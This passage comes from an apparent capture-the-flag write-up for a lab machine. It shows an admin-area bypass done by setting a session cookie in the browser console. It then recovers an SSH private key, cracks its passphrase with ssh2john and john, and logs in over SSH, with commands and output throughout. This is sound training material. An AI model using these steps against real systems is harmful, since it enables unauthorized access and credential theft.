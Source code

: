 So, we can set the cookie value to anything other than the string 'Incorrect Credentials' and get the access without the need of any username or password as our cookie value won't get verified at any point. We can set the cookie value by going to the console tab and entering:
```
Cookies.set("SessionToken", 'myCookieValue')
```

![set_cookie](./.images/set_cookie.png)

Once we refresh the page, the new cookie values would get used and we can access the `Overpass Administrator area`.

![admin_area](./.images/admin_area.png)

From this page, we can copy this RSA private key for the user named 'james' and use it further to gain SSH access to the box. But the issue here is that we can't use this RSA private key directly to gain access. Also, it is written in the 'Administrator area' that we need to crack the passphrase associated with this file. To do so, `johntheripper` can be used but again it can't directly extract the passphrase. We first need to convert it to a form that john can understand and for that, we can use `ssh2john.py`.
```
tester@kali:~/Downloads$ python /usr/share/john/ssh2john.py james_rsa > crack
```

Now, this crack file can be used with `john` to obtain the passphrase.
```
tester@kali:~/Downloads$ john --wordlist=/usr/share/wordlists/rockyou.txt crack
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX          (james)
1g 0:00:00:04 DONE (2020-07-19 20:44) 0.2433g/s 3489Kp/s 3489Kc/s 3489KC/sa6_123..*7¡Vamos!
Session completed
```
And we get the passphrase for user 'james'. We can now use the RSA private key along with this passphrase to get SSH access to the box:

```
tester@kali:~/Downloads$ ssh -i james_rsa james@10.10.129.106
The authenticity of host '10.10.129.106 (10.10.129.106)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.129.106' (ECDSA) to the list of known hosts.
Enter passphrase for key 'james_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul 19 15:19:04 UTC 2020

  System load:  0.0                Processes:           89
  Usage of /:   22.9% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.129.106
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.

```